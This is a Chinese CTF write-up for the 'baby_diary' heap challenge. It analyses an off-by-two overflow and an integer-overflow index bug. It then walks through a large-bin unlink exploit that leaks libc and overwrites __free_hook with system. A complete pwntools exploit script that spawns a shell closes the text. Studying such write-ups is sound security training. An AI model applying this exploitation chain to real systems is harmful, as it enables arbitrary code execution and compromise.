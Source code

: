 这是一道经典的堆题，可以写入、读取和删除。其中最值得研究的就是write函数最后调用的一个函数，其中涉及几个迷之计算。
# Step 1: 漏洞分析
![](https://img-blog.csdnimg.cn/e7cbf205d33f41a9b409090d205ea458.png)
我们进入unknown_handle函数（名字是笔者自己起的）：
![](https://img-blog.csdnimg.cn/c4231a861df64e12b4c11ff384bfb768.png)
后面有一个unknown_cal函数，这个函数对输入的字符串进行了一系列的操作。首先将各个字符取出将它们的ASCII码全加起来保存到一个变量a中，然后循环进行下面的计算：如果a大于0xF，计算``a = (a >> 4) + (a & 0xF)``直到a小于0xF为止。返回到unknown_handle函数中，这里对字符串的后面一位进行了修改。但write函数一开始会要求输入size，申请的空间大小是size+1，这就需要注意read_buf这个函数了。当循环退出的时候，i的值应该就是max_len，此时后面的``buf[i]=0``实际上已经相对于max_len溢出了一个字节。因此unknown_handle函数中最后一条语句实际上相对于size溢出了2个字节。这可能会修改到下一个chunk的size。
![](https://img-blog.csdnimg.cn/c0b133c7127145d188cd165a9a2eb1f1.png)
![](https://img-blog.csdnimg.cn/e7eb284a9bad42ac859dce8a1da3dbbf.png)

本题还存在数组溢出漏洞。

请注意read函数，其中并没有对index进行检查，而在check_terminator函数中，存在有整型溢出漏洞，当index为负数时有可能通过检查。
![](https://img-blog.csdnimg.cn/ae5f842a3ec44cfc89d1accd7bf1344b.png)
![](https://img-blog.csdnimg.cn/5b7454430b524f84a07c88ebfcd54bf8.png)
但在数组溢出之后，想让check_terminator函数返回true并不容易，需要匹配结束符的ASCII码。

同样地，delete函数中也存在整型溢出漏洞，但如果对应地址不是有效的堆地址，就会直接报错，因此这里也不好利用：
![](https://img-blog.csdnimg.cn/7ba7668103694495b9f53bbc03e29f25.png)
# Step 2: 确定利用方式，调试编写exp
这里需要注意unknown_handle函数时如何溢出一个字节的。在最后一条语句中，unknown_handle函数只会修改这个溢出字节的最低4位，最高4位不变。而堆管理中正常情况下所有的堆块大小都是以整0x10的形式保存的，即所有堆块的大小都是0x10的倍数。因此仅仅依靠一个字节的溢出无法达到堆块重叠的目的。

这里参考[这篇文章](https://blog.csdn.net/eeeeeight/article/details/118006138?ops_request_misc=&request_id=&biz_id=102&utm_term=baby%20diary&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-1-118006138.142^v33^control,185^v2^control&spm=1018.2226.3001.4187)的思路，利用large bin进行中转。当large bin中只有一个chunk时，其四个指针fd、bk、fd_nextsize、bk_nextsize有fd=bk在main_arena，fd_nextsize=bk_nextsize就是chunk自身。
![](https://img-blog.csdnimg.cn/dcd6bf2774dd409b928c6e7b07b9590d.png)
当我们再一次分配到这一块内存空间时，我们就可以对这里面残留的4个指针进行改写，将其伪造成一个假chunk，这个chunk的fd指针就是原来的fd_nextsize指针，bk指针就是原来的bk_nextsize指针，将原来的bk指针改为合适的size，准备进行unlink操作。unlink操作最为关键的就是假chunk中两个指针的值，fd需要等于假chunk-0x18，bk需要等于假chunk-0x10。前面说过当large bin中仅有一个chunk时，其fd_nextsize和bk_nextsize均指向其自身，因此这里的<font color=red>bk不需要修改，但fd需要修改。</font>**注意：这里需要一定的爆破：由于写入时会在后面加上零字节和标志位，因此需要爆破chunk地址的其中8位，成功率为1/256：**
![](https://img-blog.csdnimg.cn/98c1f3df3c144579914ca6f660b7685f.png)
在爆破成功之后，我们就通过unlink实现了堆块重叠，申请合适的大小就可以使得main_arena的地址可以被其他chunk所读取。

在获取libc地址后，我们还是利用堆块重叠这一特性，修改tcache的指向到__free_hook，将其改为system地址。然后释放堆块即可。

**<font color=red>需要注意的是：假chunk头部应该写的是假chunk的地址而不应该是其他值，因为unlink_chunk函数中那个``fd->bk=p || bk->fd=p``这个检查中p是一个指针。因此我们还需要想办法让这里的值变成假chunk的地址</font>**。前面说过，我们通过切割large bin chunk可以获得两个地址，然后我们要改写其中一个地址。改写之后我们再一次释放这个chunk，这时这个chunk会进入到**fastbin**中，这就有可能会在假chunk头部写上一个有效的地址。我们只需要将这个chunk重新分配回来，修改这个地址，就有可能满足unlink的检查条件。（<font color=red>注意：不能让chunk进入tcache的原因是tcache chunk的bk指针实际指向tcache那个结构体，因此会破坏假chunk的结构，覆盖我们写入的size值，导致unlink在检查size时就失败</font>）

另外，对于最初进入large bin的chunk的大小也有讲究。在第一次写假chunk信息时，我们需要写入一个size的值，而这个size的值会影响到最后的校验位。如果size的值设置得不正确，那么第一次写入和第二次写入计算出来的校验位就会不一样，这样是不可能利用成功的。因为第一次写入影响的是假chunk的fd指针，第二次写入影响的是假chunk地址本身，二者的校验位必须相等才可能使得unlink的检查通过。经过验证，这里的假chunk的size可以写0x800，但是不能写0x700、0x600等值。

exp如下，平均需要爆破约350次，这和爆破的期望不符，原因暂时不明。

```python
from pwn import *
context.arch = 'amd64'
# context.log_level = 'debug'

io = process('./baby_diary')
libc = ELF('/lib/x86_64-linux-gnu/libc-2.31.so')

def write_diary(size, content):
    io.sendlineafter(b'>> ', b'1')
    io.sendlineafter(b'size: ', str(size).encode())
    io.sendafter(b'content: ', content)

def read_diary(index):
    io.sendlineafter(b'>> ', b'2')
    io.sendlineafter(b'index: ', str(index).encode())

def delete_diary(index):
    io.sendlineafter(b'>> ', b'3')
    io.sendlineafter(b'index: ', str(index).encode())

flag = True
counter = 0
while(flag):
    write_diary(0x1070 - 0x290 - 0x10 + 0x4000, b'\n')      # chunk #0
    write_diary(0x810 - 0x30 - 0x10, b'\n')                 # chunk #1
    write_diary(0x20, b'\n')                                # chunk #2
    delete_diary(1)
    write_diary(0x800, b'\n')                               # chunk #1, previous chunk #1 to large bin
    write_diary(0x20, p64(0x10) + p64(0x800) + b'\x68\n')   # chunk #3
    for i in range(3):
        write_diary(0x20, b'flag\n')                        # chunk #4~6
    write_diary(0x6B0, b'\n')                               # chunk #7
    for i in range(3):
        write_diary(0x20, b'flag\n')                        # chunk #8~10

    for i in range(7):
        write_diary(0x20, b'\n')                            # chunk #11~17
    for i in range(7):
        delete_diary(11+i)                                  # to tcache

    delete_diary(4)
    delete_diary(3)                                         # write the chunk_addr to fake chunk's header

    for i in range(7):
        write_diary(0x20, b'\n')                            # empty tcache, chunk #3, #4, #11~15

    write_diary(0x20, b'\x80\n')                            # chunk #16, change the chunk address
    delete_diary(2)
    write_diary(0x27, b'\x00' * 0x27)                       # chunk #2, change the prev_inuse bit of chunk #1
    delete_diary(2)
    write_diary(0x27, b'\x00' * 0x18 + p64(8) + b'\n')      # chunk #2, change the prev_size of chunk #2 to 0x500
    delete_diary(1)                                         # trigger unlink
    try:
        write_diary(0x40, b'deadbeef\n')                    # chunk #1
        break
    except EOFError:
        io.close()
        io = process('./baby_diary')
        counter += 1
        print(counter)

read_diary(5)
io.recvuntil(b'content: ')
__malloc_hook = u64(io.recv(6) + b'\x00\x00') - 96 - 0x10
base = __malloc_hook - libc.symbols['__malloc_hook']
__free_hook = base + libc.symbols['__free_hook']
system = base + libc.symbols['system']
print(hex(__free_hook))

write_diary(0x20, b'\n')
delete_diary(12)
delete_diary(6)
write_diary(0x50, b'a' * 0x20 + p64(0) + p64(0x31) + p64(__free_hook) + b'\n')
write_diary(0x20, b'/bin/sh\n')
write_diary(0x20, p64(system) + b'\n')
delete_diary(12)

io.interactive()
```

![](https://img-blog.csdnimg.cn/c33701ccd5034b39a32884e01f1db9e6.png)

